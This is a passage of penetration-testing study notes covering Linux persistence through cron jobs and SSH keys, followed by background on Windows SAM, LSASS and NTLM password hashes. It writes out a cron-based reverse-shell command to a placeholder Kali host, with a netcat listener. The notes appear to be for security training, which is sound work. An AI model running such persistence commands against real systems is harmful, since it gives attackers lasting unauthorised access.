 	+ Could ideally generate a SSH key pair on the Kali linux system, keep the private key on Kali, and transfer the public key onto the system in the `.ssh` file under authorized keys

#### Linux Persistence Via Cron Jobs ####
+ Linux implements task scheduling though a utility called Cron. Cron is a time-based service that runs applications, scripts and other commands repeatedly on a specified schedule 
+ An application, or script that has been configured to be run repeatedly with Cron is known as a Cron Job
+ Can use cron jobs to execute a command or script at a fixed interval to ensure we have persistent access to the target system
	+ Can maliciously set one to execute continuously, with a reverse shell for example 
+ <mark style="background: #D2B3FFA6;">Anatomy of a Cron Job</mark>:
![[Screen Shot 2022-11-16 at 3.14.01 PM.png]]
+ **After gaining initial access**:
	+ Can enumerate the cron job information with: `cat /etc/cron*`
	+ Can make a cron job reverse shell with: `echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/KALI_IP/1234 0>&1'" > cron 
	+ Can add it as a cron job with `crontab -i cron`
		+ Can view it with `crontab -l` 
	+ Can connect to it with `nc -nvlp 1234` 

## Dumping & Cracking ##

### Dumping & Cracking Windows Hashes (NTLM) ###

#### Windows Password Hashes ####
+ The Windows OS stores hashed user account passwords locally in the <mark style="background: #ADCCFFA6;">SAM (Security Account Manager)</mark> database
+ Hashing is the process of converting a piece of data into another value. A hashing function or algorithm is used to generate the new value. The result of a hashing algorithm is known as a hash or hash value.
+ Authentication and verification of user credentials is facilitated by the <mark style="background: #FFF3A3A6;">Local Security Authority (LSA)</mark>
+ Windows versions up to Windows Server 2003 utilize two different types of hashes:
	+ **LM**
	+ **NTLM**
+ Windows disables LM hashing and utilizes NTLM hashing from Windows Vista onward
	+ <mark style="background: #FF5582A6;">NOTE</mark>: There are various versions of NTLM including NTLMv1 and NTLMv2

#### SAM Database ####
+ SAM (Security Account Manager) is a database file that is responsible for managing user accounts and passwords on Windows. All user account passwords stored in the SAM database are hashed
+ The SAM database file cannot be copied while the OS is running
	+ Though sometimes, the windows OS will make a copy when it runs into an issue, or an admin will 
+ The Windows NT kernel keeps the SAM database file locked and as a result attackers typically utilize in-memory techniques and tools to dump <mark style="background: #ADCCFFA6;">SAM</mark> hashes from the <mark style="background: #FFB86CA6;">LSASS</mark> process cache
+ In modern versions of Windows, the SAM database is encrypted with a **syskey** 
+ <mark style="background: #FF5582A6;">NOTE</mark>: Elevated/Administrative privileges are required in order to access and interact with the LSASS process
